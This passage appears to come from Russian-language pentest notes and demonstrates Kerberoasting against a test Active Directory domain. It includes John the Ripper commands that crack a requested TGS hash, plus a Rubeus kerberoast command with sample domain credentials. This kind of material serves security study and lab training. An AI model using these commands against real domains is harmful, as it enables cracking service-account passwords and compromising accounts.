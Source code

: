 Выполнив команду, мы сначала сделали запрос к LDAP, найдя всех пользователей с SPN, а затем запросили TGS билет, указав в качестве службы найденную УЗ "test_user_spn".

Теперь необходимо завернуть вывод команды в файл и забрутить пароль:
`echo 'string' > file.hash`
`john file.hash --wordlist=passwords.txt`

![](../../../Attachments/kerb11.png)

В конечном счете, мы получили пароль от УЗ test_user_spn, тем самым скомпрометировав её.

#### Вариант локальной атаки, используя Rubeus
`Rubeus.exe kerberoast /outfile:kerb_tgs.txt /domain:"TEST.LOCAL" /dc:"DC_TEST.TEST.LOCAL" /user:"test_user" /password:"P@ssword!" /spn:"test_user_spn"`

![](../../../Attachments/kerb12.png)
